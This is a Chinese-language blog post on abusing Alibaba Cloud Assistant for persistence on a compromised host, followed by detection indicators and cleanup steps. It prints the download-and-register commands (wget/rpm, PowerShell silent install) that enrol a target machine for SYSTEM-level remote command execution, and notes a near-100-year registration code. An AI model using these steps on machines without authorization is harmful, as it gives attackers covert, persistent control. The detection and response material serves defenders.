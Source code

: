 # 022-Ali云助手权限维持




## Ali云助手权限维持

## 简介

**云助手**是专为云服务器 ECS 打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在 ECS 实例上实现批量运维、执行命令（Shell、PowerShell、Bat等）和发送文件等操作。

典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。

但实际上也可以针对终端主机进行远程运维，因此可以用于实现权限维持。

&gt; 官方文档：
&gt;
&gt; https://help.aliyun.com/zh/ecs/user-guide/overview-10

## 利用

1、打开阿里云控制台，依次找到 产品与服务 -&gt; 云服务器 ECS -&gt; 运维与监控 -&gt; 发送命令/文件（云助手） -&gt; 托管实例 -&gt; 创建注册码：

![image-20250722015758523](resource/index.assets/image-20250722015758523.png)

2、输入配置信息，包括如下内容：

- 实例名称前缀

  默认的实例名称。默认使用 hostname 作为实例名称。 若设置，则使用该注册码所注册的实例，将使用该名称作为前辍生成有序的实例名； 也可以在注册时指定新的实例名称以覆盖此默认值。

  只可包含特殊字符中的点号（.）、下划线（_）、连字符（-）和半角冒号（:）

- 来源IP限制：

  待注册的主机的访问互联网时的公网IP或IP范围，支持 IPv4、IPv6和CIDR地址段。

  仅在主机注册阶段进行校验。

- 激活数额度：

  注册码可激活的实例数，即此注册码最多可用于注册的次数。默认值10，最多可支持1000台。

- 有效期：

  注册码的有效期，默认4小时，可选范围 1～876576小时（约100年，半永久:laughing:  ）。

  超出有效期后，该注册码不可用于注册新的主机。

3、点击生成注册码

当生成注册码后，会在下方显示实例注册的命令脚本内容。该注册码内容只显示一次，因此需要保存此注册码唯一ID与内容。

支持Linux 和Windows :

**Linux(.rpm)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.rpm
sudo rpm -ivh aliyun_assist_latest.rpm --force 
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxL47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxxD244E7&#34;
```

**Linux(.deb)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.deb
sudo dpkg -i aliyun_assist_latest.deb
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxx47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxx3D244E7&#34;
```

**Windows**

```powershell
Invoke-WebRequest -Uri `
&#39;https://aliyun-client-assist.oss-accelerate.aliyuncs.com/windows/aliyun_agent_latest_setup.exe&#39; `
-OutFile &#39;C:\\aliyun_agent_latest_setup.exe&#39;
&amp;&#34;C:\\aliyun_agent_latest_setup.exe&#34; &#39;/S&#39; &#39;--register&#39; `
&#39;--RegionId=&#34;cn-hangzhou&#34;&#39; &#39;--ActivationCode=&#34;a-hz012xxxxvttL47fD/f&#34;&#39; `
&#39;--ActivationId=&#34;1DA9xxxxx244E7&#34;&#39;
```

生成的注册码中的关键参数就是 ActivationId值 和 ActivationCode值，Id和Code互相相互对应，可点击 “注册新实例” 处，查看过去建立生成的 ActivationId 值，但 ActivationCode值不可查。

![image-20250722015839420](resource/index.assets/image-20250722015839420.png)

![image-20250722015852466](resource/index.assets/image-20250722015852466.png)



使用阿里云给出的命令下载云助手agent，可能会出现权限不足的情况，需要将文件输出在当前用户可写的路径下。

![image-20250722015928880](resource/index.assets/image-20250722015928880.png)

第一段命令为下载云助手Agent，需要等待一段时间，也可以通过其他方式投递。

第二段命令为云助手Agent注册上线ECS云助手控制端。

在目标机器上运行相应脚本，执行完之后需要刷新或者重新打开一个标签页，即可展示结果：

![image-20250722015943005](resource/index.assets/image-20250722015943005.png)

执行命令相当于创建一个脚本，依次去执行；

远程登录即类似ECS，开启一个Web形式的终端

![image-20250722015958289](resource/index.assets/image-20250722015958289.png)

可以看到登录后即为system权限。



目前发现一些问题：

1. 云助手Agent执行时有 UAC认证；
2. Powershell执行命令下载文件时，需要等待。
3. 在Windows Arm上会被识别为Ubuntu
4. 只适合命令控制，传输文件大小有限制，上传的文件原始大小不大于24KB，且经过Base64编码后的文件不能大于32KB。因此更适合与命令控制和权限维持。
5. 一条命令中，自定义参数的个数不能超过20个



## 排查

**云助手Agent**：

运行云助手后，Windows系统上会有一个 aliyun_agent的进程和一个AliyunService服务，该进程服务会开机自启。

![image-20250722020015817](resource/index.assets/image-20250722020015817.png)

![image-20250722020030888](resource/index.assets/image-20250722020030888.png)

**云助手守护进程：**

本地结束该进程后，远程连接即可终端。未发现进程保护等动作。

![image-20250722020056641](resource/index.assets/image-20250722020056641.png)

![image-20250722020106861](resource/index.assets/image-20250722020106861.png)

查了文档发现其实有守护进程，只是目前仅支持Linux操作系统。

云助手守护进程，用于监控云助手Agent的资源消耗情况，上报云助手Agent的运行状态，以及当云助手Agent崩溃时重启云助手Agent。

- 服务名称：`AssistDaemon`
- 路径：`/usr/local/share/assist-daemon/assist_daemon`

**任务执行路径：**

云助手会将用户的命令内容以文件形式先保存到实例上，然后再执行文件，具体保存路径如下：

- Linux：/tmp

- Windows：云助手安装路径/work/script

**通信流量：**

本地Agent上线后会先对域名进行解析，根据命令行中`--RegionId=&#34;cn-hangzhou&#34;`的键值，会寻找相应的节点，这里就是`cn-hangzhou.axt.aliyuncs.com`。

![image-20250722020124953](resource/index.assets/image-20250722020124953.png)

从TLS协议握手过程可以看到Server Name为`cn-hangzhou.axt.aliyuncs.com`，接下去所走的流量都是TLS加密流量。

![image-20250722020134447](resource/index.assets/image-20250722020134447.png)



## 特征：

1. 检测阿里云助手官方程序，确认是否本人安装
2. 域名：aliyun-client-assist.oss-accelerate.aliyuncs.com，用于下载云助手Agent程序，可被绕过通过其他方式投递。
3. 通信流量，DNS解析记录有`*.axt.aliyuncs.com`，TLS Client Hello 证书握手时Server Name是`*.axt.aliyuncs.com`
4. 进程名：aliyun_agent，服务名：Aliyun Assist Service
5. Linux系统守护进程：AssistDaemon

天眼分析中心日志检测，SSL加密协商：`server_name: (*.axt.aliyuncs.com)`

## 处置

1. 杀进程，关闭服务
2. 删除被非法安装的Ali云助手
3. 排查其他权限维持动作并清除。
4. 增加流量侧和终端侧检测，标记md5和域名。



## 参考文章：

https://mp.weixin.qq.com/s/-JqzD_F_5CqdwZAyhEBU8g

---

> 作者: Xavier  
> URL: http://localhost:1313/posts/022-ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/  

